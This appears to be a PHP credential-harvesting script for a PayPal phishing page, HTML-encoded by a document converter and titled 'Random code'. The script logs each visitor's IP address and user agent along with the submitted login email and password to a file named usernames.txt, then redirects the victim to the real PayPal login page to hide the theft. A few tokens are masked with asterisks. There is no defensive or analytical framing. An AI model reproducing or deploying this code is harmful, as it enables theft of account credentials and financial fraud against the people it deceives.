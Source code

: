 <p>&lt;?php&nbsp;</p>
<p>&nbsp;</p>
<p>if (!empty($_SERVER[&apos;HTTP_CLIENT_IP&apos;]))&nbsp;</p>
<p>&nbsp; &nbsp; {&nbsp;</p>
<p>&nbsp; &nbsp; &nbsp; $ipaddress = $_SERVER[&apos;HTTP_CLIENT_IP&apos;];&nbsp;</p>
<p>&nbsp; &nbsp; }&nbsp;</p>
<p>****** (!empty($_SERVER[&apos;HTTP_X_FORWARDED_FOR&apos;]))&nbsp;</p>
<p>&nbsp; &nbsp; {&nbsp;</p>
<p>&nbsp; &nbsp; &nbsp; $ipaddress = $_SERVER[&apos;HTTP_X_FORWARDED_FOR&apos;];&nbsp;</p>
<p>&nbsp; &nbsp; }&nbsp;</p>
<p>else&nbsp;</p>
<p>&nbsp; &nbsp; {&nbsp;</p>
<p>&nbsp; &nbsp; &nbsp; $ipaddress = $_SERVER[&apos;REMOTE_ADDR&apos;];&nbsp;</p>
<p>&nbsp; &nbsp; }&nbsp;</p>
<p>$browser = $_SERVER[&apos;HTTP_USER_AGENT&apos;].&quot;\r\n&quot;;&nbsp;</p>
<p>file_put_contents(&quot;usernames.txt&quot;, &quot;\nUser-Agent: &quot; . $******* . &quot;IP: &quot; . $ipaddress . &quot;\nAccount: \&quot;&quot; . $_POST[&apos;login_email&apos;] . &quot;\&quot; Pass: \&quot;&quot; . $_POST[&apos;login_password&apos;] . &quot;\&quot;\n&quot;, FILE_APPEND);</p>
<p>header(&apos;Location: <a data-fr-linked="true" href="https://www.paypal.com/login">https://www.paypal.com/login</a>&apos;);</p>
<p>exit();</p>
<p><br></p>
<p><br></p>
<p>
    <title>Random code&lt;title&gt; &lt;span class=&quot;fr-marker&quot; data-id=&quot;0&quot; data-type=&quot;true&quot; style=&quot;display: none; line-height: 0;&quot;&gt;&lt;/span&gt;&lt;span class=&quot;fr-marker&quot; data-id=&quot;0&quot; data-type=&quot;false&quot; style=&quot;display: none; line-height: 0;&quot;&gt;&lt;/span&gt;</title>
</p>
<div style="color: red; font-size: 12px; width: 600px; margin: 0 auto; text-align: center;">Created with <a href="https://wordtohtml.net/">WordToHTML.net</a> trial.</div>
